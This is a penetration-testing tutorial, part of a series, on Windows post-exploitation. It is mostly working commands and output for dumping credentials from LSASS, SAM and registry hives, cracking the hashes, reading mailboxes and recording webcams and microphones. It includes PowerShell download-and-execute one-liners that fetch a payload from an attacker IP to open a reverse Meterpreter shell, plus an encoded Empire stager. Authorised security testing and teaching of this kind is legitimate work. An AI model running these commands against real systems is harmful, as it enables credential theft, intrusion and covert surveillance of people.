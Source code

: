 **********************************************************
Infrastructure PenTest Series : Part 4 - Post Exploitation
**********************************************************

From the previous post, we learned how to have authenticated remote shell in windows, in this post, we will have a look around of how to **gather credentials after getting a remote shell**. We would also have a look how to have a **High-Impact post exploitation** which leaves an impact to the higher management for the organization. In **Appendix-I : Windows Credentials**, We have explained the concepts about authentication, credentials and authenticators, credential storage, authentication protocols, logon types. Appendix-II : Interesting Stories contains blog links which might be helpful doing post-exploitation.

Gathering Windows Credentials
=============================

Once we have administrative remote shell, our next task is to gather all the passwords from Security Accounts Manager (SAM) database, Local Security Authority Subsystem (LSASS) process memory. Domain Active Directory Database (domain controllers only), Credential Manager (CredMan) store or LSA Secrets in the registry and get all the passwords (clear-text or hashed). A lot of stuff has already been mentioned at `Obtaining Windows Passwords <http://netsec.ws/?p=314>`_ and `Dumping Windows Credential <https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/>`_ and Bernardo Blog Dump Windows password hashes efficiently `Part1 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes.html>`_ , `Part2 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_16.html>`_, `Part3 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_20.html>`_, `Part4 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_21.html>`_, `Part5 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_28.html>`_ and `Part6 <http://bernardodamele.blogspot.in/2011/12/dump-windows-password-hashes_29.html>`_.

We have tried to combine all the methods in one post. (A lot of stuff has also been not mentioned such fgdump, pwdump etc.). For all methods, check `Credential Dumping <https://attack.mitre.org/wiki/Technique/T1003>`_ on ATT&CK. 

So, back to credential dumping after getting a remote shell, there are multiple methods to do the following:

* Get metasploit meterpreter by using Web Delivery method and run mimikatz
* Get powershell empire agent by using powershell launcher string and run mimikatz
* Execute Windows Credential Editor (WCE)
* Dumping Local Security Authority Subsystem Service
* Dumping Registry Hives
* Dumping System/ Security/ SAM File
* Virtual Machine Snapshots and Suspended States - Vmss2core

Metasploit Web Delivery
-----------------------

`Metasploit Web Delivery <https://www.offensive-security.com/metasploit-unleashed/web-delivery/>`_ : Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine. This module has a powershell method which generates a string which is needed to be executed on remote windows machine.

::

  msf > use exploit/multi/script/web_delivery 
  msf exploit(web_delivery) > show targets 

  Exploit targets:
  
     Id  Name
     --  ----
     0   Python
     1   PHP
     2   PSH  
  
  
  msf exploit(web_delivery) > set target 2
  target => 2
  msf exploit(web_delivery) > set payload windows/x64/meterpreter/reverse_https 
  payload => windows/x64/meterpreter/reverse_https
  msf exploit(web_delivery) > set lhost 14.97.131.138
  lhost => 14.97.131.138
  msf exploit(web_delivery) > run 
  [*] Exploit running as background job.

  [*] Started HTTPS reverse handler on https://14.97.131.138:8443
  msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/uMOKs6wtlYL
  [*] Local IP: http://14.97.131.138:8080/uMOKs6wtlYL
  [*] Server started.
  [*] Run the following command on the target machine:
  powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');

When the following command (when there is no proxy)

::

  powershell.exe -nop -w hidden -c $X=new-object net.webclient;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');

or (when there is proxy)

::

  powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
 

is executed on the windows remote machine, we should get a meterpreter.

::

  Delivery web_delivery payload
  meterprerter>

Once we have got the meterpreter, we can use mimikatz or kiwi to dump all the credentials.

Powershell Empire
-----------------

`Powershell Empire agent <https://www.powershellempire.com/>`_ : Empire is a pure PowerShell post-exploitation agent built on cryptologically-secure communications and a flexible architecture. Empire implements the ability to run PowerShell agents without needing powershell.exe, rapidly deployable post-exploitation modules ranging from key loggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.

After creating a listener, we just need to create a launcher using stager:

::

 (Empire: listeners) > usestager launcher 
 (Empire: stager/launcher) > set Listener test
 (Empire: stager/launcher) > generate
 powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUAbQAuAE4ARQBUAMAA7ACQAdwBDAD0ATgBFAFcALQBPAGIASgBlAGMAVAAgAFMAeQBTAFQAZQBNAC4ATgBlAHQALgBXAEUAQgBDAGwASQBFAG4AVAA7ACQAdQA9ACcATQBvAHoAaQBsAGwAYQAvADUALgAwACAAKABXAG*snip*4AOQA3AC4AMQAzADEALgAxADMAOAA6ADgAMAA4ADAALwBpAG4AZABlAHgALgBhAHMAcAAiACkAKQApAHwAJQB7ACQAXwAtAEIAWABPAFIAJABLAFsAJABJACsAKwAlACQASwAuAEwAZQBOAEcAdABIAF0AfQA7AEkARQBYACAAKAAkAEIALQBKAG8ASQBOACcAJwApAA==

When the above command is executed on the windows remote shell, we should be able to get a powershell agent

::

 (Empire) > [+] Initial agent 2FTFYMKDFSSFS from 192.168.42.5 now active


Sometimes the above two will fail to work, in which case, we revert to the old techniques:

Dump Lsass.exe (Local Security Authority Subsystem Service)
-----------------------------------------------------------

Procdump
^^^^^^^^

This method has been mentioned `Grabbing Passwords from Memory using Procdump and Mimikatz <https://cyberarms.wordpress.com/2015/03/16/grabbing-passwords-from-memory-using-procdump-and-mimikatz/>`_ , `How Attackers Extract Credentials (Hashes) From LSASS <https://adsecurity.org/?p=462>`_ , `Mimikatz Minidump and mimikatz via bat file <http://carnal0wnage.attackresearch.com/2013/07/mimikatz-minidump-and-mimikatz-via-bat.html>`_ , `Extracting Clear Text Passwords Using Procdump and Mimikatz  <http://c0d3xpl0it.blogspot.in/2016/04/extracting-clear-text-passwords-using-procdump-and-mimikatz.html>`_ and `I'll Get Your Credentials ... Later! <http://www.fuzzysecurity.com/tutorials/18.html>`_

* First, upload the `ProcDump.exe <https://technet.microsoft.com/en-us/sysinternals/dd996900.aspx>`_ to the remote computer by using smb, windows explorer.

* Second, from the remote shell, execute

 ::

   C:\Windows\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp     => For 32 bit system
   C:\Windows\temp\procdump.exe -accepteula -ma -64 lsass.exe lsass.dmp => For 64 bit system

* Download the lsass.dmp and use mimikatz to get the passwords.

Powershell Out-MiniDump
^^^^^^^^^^^^^^^^^^^^^^^

This method is similar to the procdump using powershell. Instead of procdump, we utilize powershell `Out-MiniDump.ps1 <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Out-Minidump.ps1>`_ from PowerSploit

* Launch PowerShell and `dot source <http://ss64.com/ps/source.html>`_ function from the Out-Minidump.ps1

 ::
   
  . c:\path\to\Out-Minidump.ps1

* Create dump of the process using this syntax:

 ::

   Get-Process lsass | Out-Minidump -DumpFilePath C:\Windows\Temp

Registry Hives
--------------

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system:

::

 C:\> reg.exe save hklm\sam c:\temp\sam.save
 C:\> reg.exe save hklm\security c:\temp\security.save
 C:\> reg.exe save hklm\system c:\temp\system.save

Get the password hashes of the local accounts, the cached domain credentials and the LSA secrets in a single run with Impacket secretsdump.py

::

 $ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
 Impacket v0.9.11-dev - Copyright 2002-2013 Core Security Technologies

 [*] Target system bootKey: 0x602e8c2947d56a95bf9cfxxxxxxxxxxx
 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
 admsys  :500 :aad3b435b51404eeaad3b435b51404ee:3e24dcead23468ce597d68xxxxxxxxxx:::
 Guest   :501 :aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59dxxxxxxxxx:::
 support :1000:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b5xxxxxxxxx:::
 [*] Dumping cached domain logon information (uid:encryptedHash:longDomain:domain)
 adm2:6ec74661650377df488415415bf10321:system1.example.com:EXAMPLE:::
 Administrator:c4a850e0fee5af324a57fd2eeb8dbd24:system2.example.COM:EXAMPLE:::
 [*] Dumping LSA Secrets
 [*] $MACHINE.ACC
 $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:2fb3672702973ac1b9adxxxxxxxxxx

Windows Credential Editor (WCE)
-------------------------------

Windows Credentials Editor (WCE) is a security tool that allows to list Windows logon sessions and add, change, list and delete associated credentials (e.g.: LM/NT hashes, Kerberos tickets and cleartext passwords).

The tool allows users to:

* Perform Pass-the-Hash on Windows
* 'Steal' NTLM credentials from memory (with and without code injection)
* 'Steal' Kerberos Tickets from Windows machines
* Use the 'stolen' kerberos Tickets on other Windows or Unix machines to gain access to systems and services
* Dump cleartext passwords stored by Windows authentication packages


**Examples**

List NTLM credentials in memory
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

By default, WCE lists NTLM credentials in memory, no need to specify any options.

::

 C:\Users\test>wce.exe
 WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
 Use -h for help.
 
 theuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537 

Create a new logon session 
^^^^^^^^^^^^^^^^^^^^^^^^^^
Create a new logon session and launch a program with new NTLM credentials?

::

  wce.exe -s <username>:<domain>:<lmhash>:<nthash> -c <program>

Example:

::
 
  C:\Users\test>wce.exe -s testuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537 -c cmd.exe
 
  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.
 
  Changing NTLM credentials of new logon session (000118914h) to:
  Username: testuser
  domain: amplialabs
  LMHash: 01FC5A6BE7BC6929AAD3B435B51404EE
  NTHash: 0CB6948805F797BF2A82807973B89537
  NTLM credentials successfully changed!
 
At this point, a new cmd.exe instance will be launched and network connections using NTLM initiated from that instance will use the NTLM credentials specified. 
 
Write hashes obtained by WCE to a file?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::
 
  C:\>wce -o output.txt
  WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
  Use -h for help.
 
  C:\>type output.txt
  test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
 
Dump logon cleartext passwords with WCE?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The -w switch can be used to dump logon passwords stored in cleartext by the Windows Digest Authentication package. For example:
 
::
 
  C:\>wce -w
  WCE v1.3beta (Windows Credentials Editor) - (c) 2010,2011,2012 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity com)
  Use -h for help.
  
  test\MYDOMAIN:mypass1234
  NETWORK SERVICE\WORKGROUP:test
  
`This <http://www.youtube.com/watch?v=tJ0VJVrhwTE&ap=%2526fmt%3d22>`_ video shows the use of the -w switch in a Windows 2008 Server

Useful Information
^^^^^^^^^^^^^^^^^^

* Cachedump obtains NTLM credentials from the Windows Credentials Cache (aka logon cache, logon information cache, etc). This cache can be disabled and it is very often disabled by network/domain/windows administrators (`see here <http://support.microsoft.com/kb/172931>`_ ). WCE will be able to steal credentials even when this cache is disabled.

* WCE obtains NTLM credentials from memory, which are used by the system to perform SSO; it uses a series of techniques the author of WCE developed.

* Pwdump dumps NTLM credentials from the local SAM. Let's say, a administrator remote desktop to a server (compromised by attacker and can run wce). In this case, WCE would be able get the credential of Administrator ( who RDP'd ), However, pwdump will only allow you to obtain the NTLM credentials of the local SAM

The above information has been taken from `WCE FAQ <http://www.ampliasecurity.com/research/wcefaq.html>`_

System/ Security /SAM File
--------------------------

During penetration assessment, we do find VMDK file (Virtual Machine Disk), we should be able to mound vmdk file either by using Windows Explorer, VMWare Workstation or OSFMount. After mounting, we should be able to copy 

:: 

 System32/config/SYSTEM
 System32/config/SECURITY

Passwords from these file could be extracted by using `creddump7 <https://github.com/Neohapsis/creddump7>`_ 

creddump7
^^^^^^^^^

Run cachedump.py on the SYSTEM and SECURITY hives to extract cached domain creds:

::

 # ./cachedump.py
 usage: ./cachedump.py <system hive> <security hive> <Vista/7>
 
 Example (Windows Vista/7):
 ./cachedump.py /path/to/System32/config/SYSTEM /path/to/System32/config/SECURITY true
 
 Example (Windows XP):
 ./cachedump.py /path/to/System32/SYSTEM /path/to/System32/config/SECURITY false
 
 # ./cachedump.py /mnt/win/Windows/System32/config/SYSTEM /mnt/win/Windows/System32/config/SECURITY true |tee hashes
 nharpsis:6b29dfa157face3f3d8db489aec5cc12:acme:acme.local
 god:25bd785b8ff1b7fa3a9b9e069a5e7de7:acme:acme.local

If you want to crack the hashes and have a good wordlist, John can be used. The hashes are in the 'mscash2' format:

::

 # john --format=mscash2 --wordlist=/usr/share/wordlists/rockyou.txt hashes
 Loaded 2 password hashes with 2 different salts (M$ Cache Hash 2 (DCC2) PBKDF2-HMAC-SHA-1 [128/128 SSE2 intrinsics 8x])
 g0d              (god)
 Welcome1!        (nharpsis)

The examples above are taken from creddump7 Readme

Virtual Machine Snapshots And Suspended States - Vmss2core
----------------------------------------------------------

This method has been directly taken from the Fuzzy Security Blog `I'll Get Your Credentials ... Later! <http://www.fuzzysecurity.com/tutorials/18.html>`_

After compromising a target if we discover that the box hosts Virtual Machines. We can utilize `vmss2core <https://labs.vmware.com/flings/vmss2core>`_ , we can use this tool to create a coredump of a Virtual Machine, If that machine has suspended (*.vmss) or snapshot (*.vmsn) checkpoint state files. These files can be parsed by the volatility framework to extract a hashdump.

Make sure to use the appropriate version of vmss2core, in this case I needed the 64-bit OSX version.

::

 # We are working with a suspended state so we need to combine *.vmss and *.vmem. If we were
  dealing with a snapshot we would need to combine *.vmsn and *.vmem.
	
 Avalon:Tools b33f$ ./vmss2core_mac64 -W
 /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmss 
 /Users/b33f/Documents/VMware/VMs/Win7-Testbed/Windows\ 7.vmwarevm/Windows\ 7-e7a44fca.vmem

 vmss2core version 3157536 Copyright (C) 1998-2013 VMware, Inc. All rights reserved.
 Win32: found DDB at PA 0x2930c28
 Win32: MmPfnDatabase=0x82970700
 Win32: PsLoadedModuleList=0x82950850
 Win32: PsActiveProcessHead=0x82948f18
 Win32: KiBugcheckData=0x82968a40
 Win32: KernBase=0x82806000

 Win32: NtBuildLab=0x82850fa8
 Win: ntBuildLab=7601.17514.x86fre.win7sp1_rtm.101119-1850  # Win7 SP1 x86
 CoreDumpScanWin32: MinorVersion set to 7601
 ... 10 MBs written.
 ... 20 MBs written.
 ... 30 MBs written.
 ... 40 MBs written.
 ... 50 MBs written.
 
 [...Snip...] 
 
 Finished writing core.

After transferring the coredump back out we can let volatility do it's magic. We need to determine which OS the dump comes from for volatility to parse it correctly.

:: 

 # We can see that volatility is unable to accurately determine the OS profile, however from the vmss2core
   output above we can see that the correct profile is "Win7SP1x86". 
 	
 root@Josjikawa:~/Tools/volatility# ./vol.py imageinfo -f ../../Desktop/memory.dmp 
 
 Determining profile based on KDBG search...
 
           Suggested Profile(s) : Win7SP0x86, Win7SP1x86 (Instantiated with WinXPSP2x86)
                      AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                      AS Layer2 : WindowsCrashDumpSpace32 (Unnamed AS)
                      AS Layer3 : FileAddressSpace (/root/Desktop/memory.dmp)
                       PAE type : PAE
                            DTB : 0x185000L
              KUSER_SHARED_DATA : 0xffdf0000L
            Image date and time : 2014-09-13 19:15:04 UTC+0000
      Image local date and time : 2014-09-13 21:15:04 +0200

Using the "hivelist" plugin we can now get the memory offsets for the various registry hives.

:: 

 root@Josjikawa:~/Tools/volatility# ./vol.py hivelist -f ../../Desktop/memory.dmp --profile=Win7SP1x86

 Volatility Foundation Volatility Framework 2.4
 
 Virtual    Physical   Name
 ---------- ---------- ----
 0x988349c8 0x3945a9c8 \??\C:\Users\Fubar\AppData\Local\Microsoft\Windows\UsrClass.dat
 0x87a0c008 0x27f9f008 [no name]
 0x87a1c008 0x280ed008 \REGISTRY\MACHINE\SYSTEM                # SYSTEM
 0x87a3a6b0 0x27d4b6b0 \REGISTRY\MACHINE\HARDWARE
 0x87abe5c0 0x2802a5c0 \SystemRoot\System32\Config\DEFAULT
 0x880b5008 0x231b7008 \SystemRoot\System32\Config\SECURITY
 0x88164518 0x231cc518 \SystemRoot\System32\Config\SAM         # SAM
 0x8bd019c8 0x24aec9c8 \Device\HarddiskVolume1\Boot\BCD
 0x8bdd2008 0x24772008 \SystemRoot\System32\Config\SOFTWARE
 0x8f5549c8 0x1f39e9c8 \??\C:\Windows\ServiceProfiles\NetworkService\NTUSER.DAT
 0x90e83008 0x1f09f008 \??\C:\Windows\ServiceProfiles\LocalService\NTUSER.DAT
 0x955a9450 0x15468450 \??\C:\System Volume Information\Syscache.hve
 0x988069c8 0x3aa329c8 \??\C:\Users\Fubar\ntuser.dat


All that remains now is to dump the hashes. To do this we need to pass volatility's "hashdump" module the virtual memory offsets to the SYSTEM and SAM hives, which we have.

::

 root@Josjikawa:~/Tools/volatility# ./vol.py hashdump -f ../../Desktop/memory.dmp --profile=Win7SP1x86
 sys-offset=0x87a1c008 sam-offset=0x88164518
 
 Volatility Foundation Volatility Framework 2.4 
 
 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
 user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::

These Virtual Machine coredumps can be very large (1 GB+). If transferring them over the network is not an option you can always drop a copy of volatility on the target machine. Starting from version 2.4, volatility has binary packages for Windows, Linux and OSX.

::
 
 # Binary package on OSX 10.9.4

 Avalon:Volatility-2.4 b33f$ ./volatility_2.4_x64 hashdump -f ../memory.dmp --profile=Win7SP1x86
 sys-offset=0x87a1c008 sam-offset=0x88164518 
 
 Volatility Foundation Volatility Framework 2.4
 
 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
 Fubar:1001:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
 user1:1003:aad3b435b51404eeaad3b435b51404ee:7d65996108fccae892d38134a2310a4e:::



High Impact Exploitation
========================

This section mainly focuses on the Post-exploitation which can be show to the higher management for impact or showing risk such as reading emails ( either by reading .pst files or having access to the exchange server ), having access to the File-servers holding confidential data, able to access employees laptop/ desktop ( watch them via webcam/ listen to the surroundings using microphones). The assumption is we have already compromised the domain administrator of the Windows Domain.

Outlook data file .pst
----------------------

A Personal Folders file (.pst) is an Outlook data file that stores your messages and other items on your computer. 

readpst ( linux ) or `readpst.exe <https://github.com/srnsw/xena/tree/master/xena/dist/winx86>`_ can be used to read pst mailbox for passwords

::

 ReadPST / LibPST v0.6.59
 Little Endian implementation being used.
 Usage: readpst [OPTIONS] {PST FILENAME}
 OPTIONS:
	-V	- Version. Display program version
	-D	- Include deleted items in output
	-M	- Write emails in the MH (rfc822) format
	-S	- Separate. Write emails in the separate format
	-e	- As with -M, but include extensions on output files
	-h	- Help. This screen
	-o <dirname>	- Output directory to write files to. CWD is changed *after* opening pst file
	-q	- Quiet. Only print error messages
	-r	- Recursive. Output in a recursive format
	-t[eajc]	- Set the output type list. e = email, a = attachment, j = journal, c = contact
	-w	- Overwrite any output mbox files

Only one of -M -S -e -k -m -r should be specified

Once readpst has converted the contents of the .pst file to plaintext documents, we can search through them using the built-in “findstr” command.

::

 findstr /s /i /m “password” *.*

 “/s” tells findstr to search through the current directory and subdirectories.
 “/i” specifies that the search should be case insensitive.
 “/m” tells findstr to output the file name rather than the file contents – if we output the contents, we may quickly be swamped with output that we’ll still have to sift through.  Depending on the amount of output, you may also quickly exceed cmd.exe’s limits.
 *.*, of course, means that we’re searching through files of any name and any type.

The above has been taken from the `Pillaging .pst Files <https://warroom.securestate.com/pillaging-pst-files/>`_ 

Pillage Exchange
----------------

This is applicable in a Microsoft environment that uses Outlook but does not back up email to .pst files.

The assumption is that we have already compromised the Exchange Administrator account on the Exchange server.  We’ll use two techniques to search through mailboxes of interest.  The first is to give ourselves full access to the targeted user’s mailbox; the second is to use built-in management features to search through a mailbox of our choosing.

Full access to the targeted user’s mailbox
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Step 1: Add a Mailbox - Create a new mailbox by using web-based Exchange Admin Center (EAC). The “mailboxes” section allows us to add a new user mailbox.  The user receiving the mailbox can come from the list of Active Directory users, or the Administrator can create a new user.

* Step 2: Mailbox Delegation - Once our new user’s mailbox is created, we can give ourselves full access to our target user mailbox. This can be done by using targeted user mailbox account options. Go to the account settings of targeted user mailbox, select the edit option, select “mailbox delegation,” and add our new user to the “Full Access” section. Once that’s complete, we can log in to our recently created mailbox with the username and password we set, then open another mailbox without being required to enter any credentials

However, when we interact with their mailbox, it’s as if they are doing it, so emails previously marked as unread will be marked as read after being opened.

Search-Mailbox cmdlet
^^^^^^^^^^^^^^^^^^^^^

* If we have access to the exchange server and Exchange Management Tools are installed on a machine, they include the Exchange Management Shell, which is a version of Powershell with specific features for administering exchange.  “Search-Mailbox,” allow us to make specific search queries on mailboxes of interest without manually giving ourselves full-access and logging in.

* However, Search-Mailbox belongs to administrators with the “Discovery Management” role.  We have to add the compromised account to the members of this role by visiting EAC and going to “permissions,” “admin roles” and editing the “Discovery Management” to add the account we compromised.

* Search-Mailbox Syntax

 ::

   Search-Mailbox -Identity “First Last” -SearchQuery “String” -TargetMailbox “DiscoveryMailbox” -TargetFolder “Folder” -LogLevel Full
   
   Identity is the Active Directory username
   SearchQuery is the string of text we’re looking for, 
   TargetMailbox is the mailbox where emails containing that string will be sent (hence the need to control a mailbox), 
   TargetFolder is the folder in that mailbox where they’ll go

Example:

::

  Search-Mailbox -Identity “Targeted User” -SearchQuery “Password” -TargetMailbox “NewMailboxCreated” -TargetFolder “Inbox” -LogLevel Full

Now we simply pop back over to the mailbox of the user we created and inspect the newly arrived email(s):

The above has been taken from `Pillage Exchange <https://warroom.securestate.com/pillage-exchange/>`_

File Servers
------------

We can get a list of file servers in the windows active directory by using Powersploit-Powerview-Get-NetFileServer funtion. Once we have the file server list, we can view the file server contents utilizing Windows explorer. We can also mount the file server using mount.cifs

::

 mount.cifs //{ip address}/{dir} /mnt/mountdirectory --verbose -o "username=foo,password=bar,domain=domainname,ro"

Active Directory Database Credentials
-------------------------------------

Sean Metcalf has written a brilliant blog `How Attackers Dump Active Directory Database Credentials <https://adsecurity.org/?p=2398>`_ 

The above blog covers:

* Grabbing the ntds.dit file locally on the DC using NTDSUtil’s Create IFM
* Pulling the ntds.dit remotely using VSS shadow copy
* Pulling the ntds.dit remotely using PowerSploit’s Invoke-NinjaCopy (requires PowerShell remoting is enabled on target DC).
* Dumping Active Directory credentials locally using Mimikatz (on the DC).
* Dumping Active Directory credentials locally using Invoke-Mimikatz (on the DC).
* Dumping Active Directory credentials remotely using Invoke-Mimikatz.
* Dumping Active Directory credentials remotely using Mimikatz’s DCSync.

The methods covered above require elevated rights since they involve connecting to the Domain Controller to dump credentials.

The statement "We do have all the users password hashes of your organization and X number of passwords were cracked in X number of days" make a good impact for your client.

C-Level Executive - Webcam, Microphone, User Activity Recording
---------------------------------------------------------------

Metasploit provide a post exploitation module for taking snapshots from webcam and recording sounds from microphone. Imagine, the impact of informing the client that we can view a person live-feed or record sounds from a meeting room without being present in the same room. Maybe in the meeting there were discussing about passwords, company secrets, operations, future plannings, spendings, etc.

Webcam
^^^^^^

This module will allow the user to detect installed webcams (with the LIST action) or take a snapshot (with the SNAPSHOT) action.

::

  msf > use post/windows/manage/webcam
  msf post(webcam) > info 

  Name: Windows Manage Webcam
  Module: post/windows/manage/webcam

  Available actions:
  Name      Description
  ----      -----------
  LIST      Show a list of webcams
  SNAPSHOT  Take a snapshot with the webcam

  Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  INDEX    1                no        The index of the webcam to use
  QUALITY  50               no        The JPEG image quality
  SESSION                   yes       The session to run this module on.

Record_Mic
^^^^^^^^^^

This module will enable and record your target's microphone.

::

   msf post(webcam) > use post/multi/manage/record_mic
   msf post(record_mic) > info 

   Name: Multi Manage Record Microphone
   Module: post/multi/manage/record_mic

   Basic options:
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DURATION  5                no        Number of seconds to record
   SESSION                    yes       The session to run this module on.

Sinn3r has written a blog `The forgotten spying feature: Metasploit's Mic Recording Command <https://community.rapid7.com/community/metasploit/blog/2013/01/23/the-forgotten-spying-feature-metasploits-mic-recording-command>`_ which can provide more information. Once, we have recorded the meetings, the sound WAV files can be converted to text using speech to text api.

User Activity
^^^^^^^^^^^^^

If we have a meterpreter from a windows machine, we can use Problem Steps Recorder ( PSR )(Microsoft In-built tool) to captures screenshots and text descriptions of what a user is doing on their system.

::

 psr.exe [/start |/stop][/output <fullfilepath>] [/sc (0|1)] [/maxsc <value>]
